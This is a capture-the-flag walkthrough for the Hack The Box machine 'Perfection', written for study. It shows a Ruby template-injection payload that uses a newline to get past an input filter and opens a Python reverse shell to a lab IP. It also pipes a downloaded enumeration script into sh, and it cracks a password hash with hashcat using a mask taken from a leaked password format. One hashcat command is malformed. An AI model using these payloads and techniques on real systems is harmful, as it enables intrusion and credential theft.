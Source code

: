 # Perfection

A writeup for the machine [Perfection](https://app.hackthebox.com/machines/Perfection) on Hack The Box.

<Image src={require("./banner.png").default} width="700" />

## Footprinting

### Nmap scan

Firstly, we can start with a nmap scan.

We find two open ports with one web servers publicly accessible.

```bash
nmap -sS <HOST>
```

```
22 -> SSH
80 -> HTTP
```

<Image src={require("./nmap.png").default} />

### Web server

The web server is running a simple website with an home page and a weight calculator form.

<Image src={require("./homepage.png").default} />

<Image src={require("./calculator.png").default} />

We can try to fuzz the website to find hidden directories.

```bash
gobuster dir -u http://<HOST> -w /usr/share/wordlists/dirb/common.txt
```

No hidden directories are found.

If we open a 404 page, we can see that the server is running `Sinatra`, a Ruby web framework.

<Image src={require("./sinatra.png").default} />

## User flag

### Weight calculator

The only interesting thing we can find is the weight calculator form.

We can try to test it with Burp Repeater to see if it's vulnerable.

It is required to insert an overall weight of 100 otherwise a block message is shown.

If correct weights are inserted, with categories and grades as alphanumeric characters, the application shows a message with the data inserted.

<Image src={require("./burp-repeater.png").default} />

### SSTI

This last test is interesting because it seems that the application is vulnerable to Server-Side Template Injection (SSTI).

Special characters are not allowed but still the form seems vulnerable to SSTI.

By looking online, we can find that %0A is a newline character and can be used to bypass the filter.

After that, we have to urlencode the payload and insert it in the form.

<Image src={require("./burp-ssti.png").default} />

### Reverse shell

To get a reverse shell, we can use the following payload.

```
category1=A%0A
%3C%25=%20system(%22whoami%22)%20%25%3E
%3C%25=%20%60python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.155%22,1337));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)'%60%20%25%3E
&grade1=11&weight1=20&category2=2&grade2=11&weight2=20&category3=3&grade3=11&weight3=20&category4=4&grade4=11&weight4=20&category5=5&grade5=11&weight5=20
```

<Image src={require("./cyberchef.png").default} />

<Image src={require("./rev-shell.png").default} />

## Root flag

### Users database

Inside the home directory of Susan there is the source code of the web application and a folder called migration.

In the latter, we can find a Sqlite database file.

<Image src={require("./database.png").default} />

The database contains only a table with some users and their hashed passwords.

```bash
strings pupilpath_credentials.db
```

<Image src={require("./password.png").default} />


### First cracking attempt

The hashing algorithm used for the password seems SHA-256.

However, cracking the password with common wordlists does not give any result.

```bash
hashcat -m 1430 -a 0 -oabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f /usr/share/wordlists/rockyou.txt
```

### Scan with LinPEAS

We can try to scan with LinPEAS to find interesting files and configurations.

```bash
# In the host
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
python3 -m http.server
```

```bash
# In the target
curl IP:PORT/linpeas.sh | sh
```

<Image src={require("./linpeas.png").default} />

There is a mail file for Susan accessible both by the user and the root.

```bash
cat /var/mail/susan
```

<Image src={require("./mail.png").default} />

### Cracking the password

Inside we find the correct password format.

```
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

susan_nasus_ddddddddd
```

It is possible to use Hashcat with a specific mask to crack the password.

```sh
hashcat -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d -m 1400
```

<Image src={require("./hashcat.png").default} /> 

We can now login through SSH as Susan and retrieve the root flag by switching to the root user.

```bash
ssh susan@MACHINE_IP
# ...
sudo su
```
